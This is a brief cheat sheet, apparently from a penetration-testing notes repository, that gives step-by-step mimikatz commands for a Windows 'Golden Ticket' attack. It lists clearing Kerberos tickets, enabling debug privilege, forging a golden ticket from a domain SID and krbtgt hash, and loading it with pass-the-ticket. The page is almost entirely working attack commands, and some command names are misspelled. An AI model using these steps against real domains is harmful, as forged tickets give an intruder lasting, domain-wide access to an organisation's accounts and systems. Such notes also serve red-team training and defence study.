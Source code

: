 # Windows - Golden Ticket

```klist purge```

Purge all ticket

```
mimikatz# privilige::debug
Privilige '20' OK
```

Check privilege level

```
mimikatz# kerberos::golden /user:<user> /domain:<domain> /sid:<domain_sid> /<cipher_type(e.g. AES256)><krbtgt_hash> /ticket:<generated_ticket_name>
```

Create Golden ticket

```debug# kerberos::ptt <ticket_name>```

Load Golden ticket

**References:**
* https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos
